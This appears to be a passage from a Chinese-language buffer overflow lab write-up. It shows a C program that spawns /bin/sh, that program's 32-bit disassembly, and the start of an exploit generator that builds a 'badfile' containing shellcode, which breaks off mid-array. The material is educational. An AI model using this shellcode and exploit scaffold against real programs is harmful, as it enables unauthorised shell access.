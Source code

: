 可实现的功能等同于：

```c
#include <unistd.h>

void main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}

```

此程序编译后为

```asm
08049196 <main>:
 8049196:	f3 0f 1e fb          	endbr32 
 804919a:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 804919e:	83 e4 f0             	and    $0xfffffff0,%esp
 80491a1:	ff 71 fc             	pushl  -0x4(%ecx)
 80491a4:	55                   	push   %ebp
 80491a5:	89 e5                	mov    %esp,%ebp
 80491a7:	53                   	push   %ebx
 80491a8:	51                   	push   %ecx
 80491a9:	83 ec 10             	sub    $0x10,%esp
 80491ac:	e8 37 00 00 00       	call   80491e8 <__x86.get_pc_thunk.ax>
 80491b1:	05 4f 2e 00 00       	add    $0x2e4f,%eax
 80491b6:	8d 90 08 e0 ff ff    	lea    -0x1ff8(%eax),%edx
 80491bc:	89 55 f0             	mov    %edx,-0x10(%ebp)
 80491bf:	c7 45 f4 00 00 00 00 	movl   $0x0,-0xc(%ebp)
 80491c6:	8b 55 f0             	mov    -0x10(%ebp),%edx
 80491c9:	83 ec 04             	sub    $0x4,%esp
 80491cc:	6a 00                	push   $0x0
 80491ce:	8d 4d f0             	lea    -0x10(%ebp),%ecx
 80491d1:	51                   	push   %ecx
 80491d2:	52                   	push   %edx
 80491d3:	89 c3                	mov    %eax,%ebx
 80491d5:	e8 96 fe ff ff       	call   8049070 <execve@plt>
 80491da:	83 c4 10             	add    $0x10,%esp
 80491dd:	90                   	nop
 80491de:	8d 65 f8             	lea    -0x8(%ebp),%esp
 80491e1:	59                   	pop    %ecx
 80491e2:	5b                   	pop    %ebx
 80491e3:	5d                   	pop    %ebp
 80491e4:	8d 61 fc             	lea    -0x4(%ecx),%esp
 80491e7:	c3                   	ret    
```



其余代码分析，分析见注释：

```c
/* 利用漏洞.c */
/* 一个程序，它创建一个文件“badfile”，其中包含用于启动 shell 的代码 */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define BUFFER_SIZE 517 // 表示缓冲区的大小 
#define OFFSET 400 // 表示缓冲区的偏移量 

char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
```